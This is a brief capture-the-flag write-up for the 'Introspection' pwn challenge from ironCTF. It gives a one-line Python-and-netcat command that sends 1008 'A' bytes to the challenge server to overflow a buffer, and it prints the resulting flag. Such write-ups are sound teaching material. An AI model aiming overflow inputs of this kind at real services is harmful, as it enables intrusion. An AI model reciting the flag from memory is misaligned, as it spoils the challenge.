 # Introspection 

Solved by: @OS1RIS

## Question:

Know your inner self and get started with Pwn.

## Solution: 

```py
python -c 'print(b"A"*1008)' | nc pwn.1nf1n1ty.team 31698
```

**Flag:** `ironCTF{W0w!_Y0u_Just_OverWrite_the_Nul1!}`


